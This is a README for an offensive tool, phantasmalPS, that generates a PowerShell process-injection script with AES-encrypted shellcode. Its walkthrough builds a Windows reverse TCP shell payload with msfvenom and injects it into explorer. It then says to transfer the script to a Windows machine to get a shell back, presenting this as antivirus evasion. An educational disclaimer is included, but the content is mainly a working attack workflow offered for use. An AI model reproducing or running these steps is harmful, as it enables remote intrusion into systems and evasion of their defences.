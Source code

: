 # phantasmalPS
This Python script generates a PowerShell Process Injection script with AES encrypted shellcode.

## Disclaimer
This repository is for educational purposes only. Do not use on any server or endpoints without authorization. I am not responsible for any damages you may cause. Use it at your own discretion.



## Simple Usage:
Let's start with installing the required libraries:
```python
pip3 install -r requirements.txt
```
```bash
python3 phantasmalPS.py -h
```
![Help](Images/phantasmalPS-help.png)

First generate a shellcode within your favorite C2 framework:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport 8443 -f ps1 -o shell
```
Let phantasmalPS do its magic:
```bash
python3 phantasmalPS.py -f shell -p explorer
```
![Run](Images/run-phantasmalPS.png)

It generates a PowerShell file called "simplescript.ps1" n the same directory you downloaded phantasmalPS.py:
```bash
ls -l simplescript.ps1
```
![Attack](Images/file-check.png)

Now, transfer the PowerShell script to a Windows machine and get a shell back:

![Reverse Shell](Images/AV-evasion.png)

Thank you
